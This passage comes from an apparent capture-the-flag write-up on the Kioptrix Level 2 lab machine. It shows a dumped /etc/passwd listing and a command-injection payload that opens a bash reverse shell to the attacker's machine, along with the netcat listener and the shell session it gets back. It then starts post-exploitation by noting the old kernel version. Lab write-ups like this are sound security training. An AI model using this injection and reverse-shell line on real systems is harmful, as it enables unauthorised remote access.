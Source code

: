 ```
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
```

Lets try passing something a little bit more nefarious from the famous [pentestmonkey reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

We'll pass this string as a value to the web application and launch a netcat listener on port 443 on our Kali machine.

`;bash -i >& /dev/tcp/192.168.1.30/443 0>&1`

`$ nc -lvnp 443`

```
listening on [any] 443 ...
connect to [192.168.1.30] from (UNKNOWN) [192.168.1.32] 37230
bash: no job control in this shell
bash-3.00$ whoami
apache
```

Great success!

# [](#header-1)Post-Exploitation

Now that we have access to the machine and we're running as the `apache` user, we need to escalate our privileges to `root`.

From looking at the output of `uname -a`, we can see that this machine is running a fairly old Linux kernel:

`Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux`
